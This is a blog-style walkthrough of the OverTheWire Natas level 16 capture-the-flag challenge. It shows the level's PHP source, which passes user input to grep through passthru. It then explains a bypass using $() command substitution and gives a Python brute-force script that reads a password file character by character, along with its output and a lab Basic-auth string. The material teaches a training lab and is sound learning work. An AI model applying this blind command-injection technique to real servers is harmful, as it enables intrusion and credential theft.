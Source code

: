 ```yaml
---
layout: post
title: "Natas Level16 - Level17"
date: 2015-10-02 21:06:47
image: '/assets/img/'
description:
tags: Natas CTF
categories: Natas
twitter_text:
---
```

Natas 16 looks similar to the earlier challenges where we were got to search for a word in a flat document. However this time it says "For security reasons, we now filter even more on certain characters":

![Natas 16 search](/assets/img/screenshots/Natas_level16-1.png)

Lets open up the source and see what the difference is:

```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script>var wechallinfo = { "level": "natas16", "pass": "<censored>" };</script></head>
<body>
<h1>natas16</h1>
<div id="content">

For security reasons, we now filter even more on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Here is the regular expression that filters out the words:


    /[;|&`\'"]/


Basically any of the following characters are now disallowed: ; | & ' \ ' "

So any of our previous strings will not work. I remembered that you can execute commands within a string in bash by adding a: $(<<COMMANDHERE>>). My idea was to run the following code:

```bash
$(grep ^A /etc/natas_webpass/natas17)
```

If we run that and the first character is "A" the entire password will be returned. If "A" does not exist, an empty string will be returned. However, this won't work because even if we guess the correct letter grep will return the password and search for the password in the dictionary which does not exist. If we find a word that exists in the dictionary, we would be able to utilize the fact that grep returns an empty string when the letter is not found. Lets first find a word we can use, I just searched for the letter "a":

![Natas 16 search for a](/assets/img/screenshots/Natas_level16-2.png)

I'll use the word "African" and that would mean our query string will look something like:

```bash
$(grep ^A /etc/natas_webpass/natas17)African
```

Next I'll use the Burp Intruder to see if we can get just the first letter:

![Natas 16 search](/assets/img/screenshots/Natas_level16-3.png)

Looks like we got a hit! Now lets use a script. I'll copy most of it from the last challenge:

```python
import urllib
import urllib2
import pprint

url = 'http://natas16.natas.labs.overthewire.org/'
referrer = 'natas15.natas.labs.overthewire.org'
authorization = 'Basic bmF0YXMxNjpXYUlIRWFjajYzd25OSUJST0hlcWkzcDl0MG01bmhtaA=='

Chars = ['a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r',
's','t','u','v','w','x','y','z','A','B','C','D','E','F','G','H','I','J','K','L',
'M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','0','1','2','3','4','5',
'6','7','8','9']

password = ""

#loop through possible length of password
for i in range(1, 33):
    print "%d out of 32" % (i)
    #loop through possible chars
    for j in range(0,len(Chars)):
        grep = '$(grep ^%s /etc/natas_webpass/natas17)African' % (password + Chars[j])
        values = {'needle' : grep,'submit' : 'Search'}
        req = urllib2.Request(url)
        req.add_data(urllib.urlencode(values))
        req.add_header('Referrer', referrer)
        req.add_header('Authorization', authorization)
        try:
            response = urllib2.urlopen(req)
            the_page = response.read()
            #print the_page
        except HTTPError, e:
            print e.reason
        if "African" not in the_page:
            password+=Chars[j]
            print password
            break
```

After that's done we get the following output:

    1 out of 32
    8
    2 out of 32
    8P
    3 out of 32
    8Ps
    4 out of 32
    ....
    27 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhP
    28 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhPk
    29 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq
    30 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9
    31 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9c
    32 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

